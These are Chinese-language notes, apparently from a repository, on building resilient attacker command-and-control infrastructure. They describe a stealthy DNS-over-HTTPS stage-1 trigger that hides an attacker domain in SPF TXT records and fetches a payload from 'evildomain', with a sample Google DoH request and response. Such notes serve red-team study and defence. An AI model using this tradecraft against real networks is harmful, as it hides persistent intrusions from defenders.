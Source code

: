 ### 构建高适应性的C2基础设施
Building resilient C2(command and control) infrastructures

* 持久访问方式(Persistent access)
  * 备用低频方式(long-haul beacons)stage 1
    * 功能极简 - 当所有的 日常高频方式(short-haul beacons) 都失败时 可以恢复对目标网络的访问(Backup channel)
    * 隐蔽性高 - 以尽量不让防御者发现的方式运作的方式：低频率的回调(calls back)、数据量小(如只传递payload的 delivery地址) ...
  * 日常高频方式(short-haul beacons)stage 2
    * 功能完整 - 功能强大的RAT`Cobalt Strike` `Empire` `Slingshot`...
    * 隐蔽性低 - 攻击者日常使用的、较频繁的对目标网络进行操作的方式
* 健壮的C2基础设施 特征
  * channel多样性 - 具有多个channel的持久访问 稳定性强（避免丢失目标网络的权限）
  * channel独立性 - 如果一个channel被发现，不会直接暴露其他channel（避免关联发现其他channel）
  * channel隐蔽性 - 通信流量加密形式或与正常的网络流量混合（避免各种方式的调查）

### 常规过程

`stage 1` -> `stage 2(RAT)`

C2基础设施的稳定性 取决于`stage 1`的方案

### stage 1 的方案 - DNS over HTTPS (DoH)

>通过https协议进行DNS解析 协议参考 [RFC 8484 - DNS Queries over HTTPS (DoH)](https://tools.ietf.org/html/rfc8484)

>具体实施参考 https://outflank.nl/blog/2018/10/25/building-resilient-c2-infrastructues-using-dns-over-https/

* stage 1 : DNS over HTTPS (DoH) 优势与特点
  * 可控字符串 `响应中有部分内容是攻击者可控的`
  * “白”域名 `Google Public DNS` https://dns.google.com/resolve?name=qq.com&type=TXT
  * 流量加密 `Over an SSL-encrypted channel`且许多已实施SSL检查的客户将所有`Google domains`排除在检查范围之外（因为Google产品中的证书，流量负载，隐私等）


#### 原理

* 攻击者设置`stager 1`
  * 通过设置该域名 的[TXT record](https://en.wikipedia.org/wiki/TXT_record)中的 用于`SPF records`的字符串(通常这里放的是 `IP addresses` `domains` `server names` 在这里放上域名很合理 看起来是无害的)
  * 如`"v=spf1 include:spf.mail.qq.com -all"`  `"v=spf1 ip4:192.0.2.0/24 ip4:198.51.100.123 a -all"`


**发起请求**

https GET `https://dns.google.com/resolve?name=qq.com&type=TXT`

（请求中的url参数值`qq.com`为我们可控的域名evildomain）

**得到响应**

response:
```
{
  "Status": 0,
  "TC": false,
  "RD": true,
  "RA": true,
  "AD": false,
  "CD": false,
  "Question": [
    {
      "name": "qq.com.",
      "type": 16
    }
  ],
  "Answer": [
    {
      "name": "qq.com.",
      "type": 16,
      "TTL": 3329,
      "data": "\"v=spf1 include:spf.mail.qq.com -all\""
    }
  ]
}
```

在响应中看到 可控字符串（其中data字段中的内容确认为我们可控的）

容易发现 `stage 1`的方案 `DoH via Google`是一个触发payload运行的理想channel

* 目标主机情况
  * `SPFstager`定期查询：提取DNS`TXT record`中`SPF records`信息
  * `SPFtrigger`触发条件：当发现了`SPF records`中的新域名时 得到了域名evildomain
    * 提取隐藏信息-方案a`http-robots.txt`
      * `SPFtrigger`程序根据evildomain域名 访问`http://evildomain/robot.txt`提取`payload` 进行decode得到raw payload
      * https://github.com/outflanknl/DoH_c2_Trigger/blob/master/DoHtrigger.ps1
    * 提取隐藏信息-方案b`http-xxx.png`
      * `SPFtrigger`程序根据evildomain域名 访问`http://evildomain/date.png`提取`payload` 进行decode得到raw payload
      * https://github.com/peewpw/Invoke-PSImage
  * 触发执行 - `payload triggering`(stage 2)

